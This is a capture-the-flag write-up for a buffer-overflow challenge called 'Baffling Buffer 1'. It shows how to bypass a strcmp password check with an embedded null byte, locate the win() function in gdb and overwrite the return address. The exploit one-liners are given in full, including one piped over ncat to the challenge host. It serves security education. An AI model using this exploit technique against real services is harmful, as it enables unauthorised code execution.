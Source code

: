 # Baffling Buffer 1 - 225pts
Tools: `python, ncat, gdb`
> After pointing out the initial issue, the developers issued a new update on the login service and restarted it at host1.metaproblems.com 5151. Looking at the binary and source code, you discovered that this code is still vulnerable.
<hr>

Looking at the source code, we notice that the flag is in an entirely different function, 'win()'. This means we will have to use a shellcode overflow in order to call that function. If we look at the 'vuln()' function, we notice a 'strcmp' between the buffer and "Sup3rs3cr3tC0de". Per the C docs:

"This function starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached."

We can try to trick the 'strcmp' call by adding a null-terminating character to "Sup3rs3cr3tC0de" and then adding our overflow data. 

First, I simply ran `bb1` with "Sup3rs3cr3tC0de", a null-terminator, and some extra characters to see if it would segfault.

```shell
python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*50)" | ./bb1
```

As I thought, it segfaulted. Thus, we can modify our input to write over the return value and access the 'win()' function. First, we have to find that memory address though. This can be done using GDB.
```shell
$ gdb bb1
(gdb) break main
(gdb) run
(gdb) info address win
>> Symbol "win" is at 0x401172 in a file compiled without debugging.
```

Now, it's a bit of trial and error to find the correct value to overflow. We also need to enable core dumps that way we can check where exactly the program segfaults at.

```shell
$ ulimit -c unlimited
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | ./bb1
>> Access granted!
>> zsh: done                              python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | 
>> zsh: segmentation fault (core dumped)  ./bb1
$ gdb -q -c core -ex quit
>> Core was generated by `./bb1'.
>> Program terminated with signal SIGSEGV, Segmentation fault.
>> #0  0x0000000000400061 in ?? ()
```

From here, we can see that the program terminates at 0x400061. 61 is the ASCII representation of 'a'. So, we have one too many A's being input. All we have to do is change to print 40 a's and then append our address in hex.

```shell
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*40+'\x72\x11\x40')" | ncat host1.metaproblems.com 5151
>> Access granted!
```

And we retrieved our flag.
